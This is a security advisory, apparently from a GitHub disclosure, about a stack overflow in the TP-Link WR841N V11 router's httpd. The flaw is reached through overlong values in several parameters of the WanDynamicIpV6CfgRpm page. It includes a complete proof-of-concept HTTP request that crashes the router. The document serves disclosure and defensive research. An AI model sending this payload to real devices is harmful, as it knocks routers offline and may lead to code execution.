




# TP-Link Vulnerability

Vendor:TP-Link

Product:WR841N

Version:V11

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in TP-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `/userRpm/WanDynamicIpV6CfgRpm.htm` function, `staticPrefix、ipEnd、ipStart、dnsserver1、dnsserver2、hostname、domain` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `staticPrefix、ipEnd、ipStart、dnsserver1、dnsserver2、hostname、domain` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `staticPrefix、ipEnd、ipStart、dnsserver1、dnsserver2、hostname、domain` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `staticPrefix` as **aaaaa......,** , and the router will crash, such as:

```http
GET /XTZTNGLAZGPPWKHA/userRpm/WanDynamicIpV6CfgRpm.htm?ipv6Enable=on&wantype=2&ipType=2&mtu=1480&dnsType=0&dnsserver1=&dnsserver2=&ipAssignType=0&ipStart=1000&ipEnd=2000&time=86400&ipPrefixType=0&staticPrefix=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&staticPrefixLength=64&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.1/XTZTNGLAZGPPWKHA/userRpm/WanDynamicIpV6CfgRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
